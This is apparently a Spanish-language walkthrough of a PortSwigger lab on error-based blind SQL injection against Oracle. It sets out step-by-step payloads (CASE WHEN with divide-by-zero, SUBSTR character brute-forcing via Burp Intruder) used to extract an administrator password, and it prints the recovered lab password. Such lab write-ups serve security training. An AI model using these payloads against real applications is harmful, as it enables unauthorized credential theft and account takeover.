# Blind SQL Injection with Conditional Errors

## 📌 Lab Information

- **Lab:** Blind SQL Injection with Conditional Errors
- **Categoría:** Blind SQL Injection
- **Técnica:** Error-Based SQLi
- **Motor BD:** Oracle

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

---

## 🎯 Objetivo

Extraer la contraseña del usuario `administrator` utilizando respuestas basadas en errores del backend.

---

## 🔍 Identificación inicial

Interceptamos la petición y modificamos el `TrackingId`.

Probamos con comilla simple:

```sql
'
```


---

## 🔍 Validación

Probamos con doble comilla:

```sql
''
```



Esto confirma:
- SQL Injection
- Input sin sanitización
- Query vulnerable

---

# 🚀 Oracle Error Oracle

Payload funcional:

```sql
'||(SELECT '' FROM dual)||'
```



---

## 🚀 Tabla inexistente



El error 500 confirma que:
- la consulta se ejecuta
- podemos generar respuestas booleanas

---

# 🧠 Oracle CASE WHEN

Payload base:

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE)
THEN TO_CHAR(1/0)
ELSE NULL
END FROM dual
```

---

## 🚀 Condición verdadera

```sql
||(SELECT CASE WHEN (1=1)
THEN TO_CHAR(1/0)
ELSE NULL END FROM dual)||
```

Resultado:
- HTTP 500



---

## 🚀 Condición falsa

```sql
||(SELECT CASE WHEN (1=2)
THEN TO_CHAR(1/0)
ELSE NULL END FROM dual)||
```

Resultado:
- HTTP 200



---

# 🚀 Validación usuario administrador

```sql
||(SELECT CASE WHEN (
EXISTS(
SELECT * FROM users
WHERE username='administrator'))
THEN TO_CHAR(1/0)
ELSE NULL END FROM dual)||
```



---

## 🚀 Enumeración longitud password

```sql
||(SELECT CASE WHEN (
EXISTS(
SELECT * FROM users
WHERE username='administrator'
AND LENGTH(password)=20))
THEN TO_CHAR(1/0)
ELSE NULL END FROM dual)||
```



---

# 🚀 Fuerza bruta password

Usamos:

```sql
SUBSTR(password,1,1)
```

Ejemplo:

```sql
SUBSTR(password,1,1)='a'
```

---

## ⚙️ Intruder

Configuramos:
- Position
- Payloads
- Grep Match







---

## ✅ Password obtenida

```text
3yaj68vg3yb1pfoohq6g
```



---

## 🔓 Acceso administrador





---

## ✅ Resultado

Se logró:
- Explotar Blind SQLi
- Enumerar longitud
- Enumerar password
- Acceder como administrator
- Automatizar ataques con Burp Intruder
